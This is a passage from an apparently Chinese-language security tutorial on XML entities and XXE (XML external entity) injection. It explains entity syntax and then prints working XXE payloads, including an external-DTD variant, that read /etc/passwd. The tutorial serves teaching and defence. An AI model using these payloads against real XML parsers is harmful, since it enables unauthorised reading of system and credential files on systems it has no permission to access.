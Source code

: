 ```
#一般实体格式：
<!ENTITY 实体名称 "实体的值">
<!ENTITY writer SYSTEM "http://somewhere.example.org/remote.dtd">
<!ENTITY copyright SYSTEM "http://somewhere.example.org/remote.dtd">

<author>&writer;©right;</author>
```

参数实体

```
<?xml version="1.0"?>
<!DOCTYPE test \[
<!ENTITY % writer SYSTEM "http://somewhere.example.org/remote.dtd">
<!ENTITY % copyright SYSTEM "http://somewhere.example.org/remote.dtd">
\]>

<author>%writer;%copyright;</author>
```

外部实体默认支持的协议

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbEzHMsZj9FJDtjy5TeNsnv8xPtzLPdwjdlsrscQZiaDIrC6W1Ns2hiaWuxJ6ficHApIzHoCXtlwqicUQ/640?wx_fmt=png)

而且 PHP 在安装扩展后还能支持下面的协议：

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbEzHMsZj9FJDtjy5TeNsnvEOkpvJ2Sic2ibgRuFsGydLhdVlgGeqGkyQgeIrSia4e1QOU86egNCpJIg/640?wx_fmt=png)

**3.XXE 攻击**

**3.1 什么是 XXE** 

XXE（XML 外部实体注入，XML External Entity) ，在应用程序解析 XML 输入时，当允许引用外部实体 时，可构造恶意内容，导致读取任意文件、探测内网端口、攻击内网网站、发起 DoS 拒绝服务攻击、执 行系统命令等。

**3.2 如何构建 **XXE****

①通过 DTD 外部实体声明进行攻击

```
<?xml version="1.0"?>
<!DOCTYPE a\[
<!ENTITY ali SYSTEM "file:///etc/passwd">
\]>
<a>&ali;</a>
```

②通过 DTD 外部实体声明引入外部 DTD 文档，再引入外部实体声明 (一般实体)

```
<?xml version="1.0"?>
<!DOCTYPE go \[
<!ENTITY ali SYSTEM "http://xmltest.com/xml.dtd">
\]>
<a>&ali;</a>

#http://xmltest.com/xml.dtd内容如下
<!ENTITY ali SYSTEM "file:///etc/passwd">
```
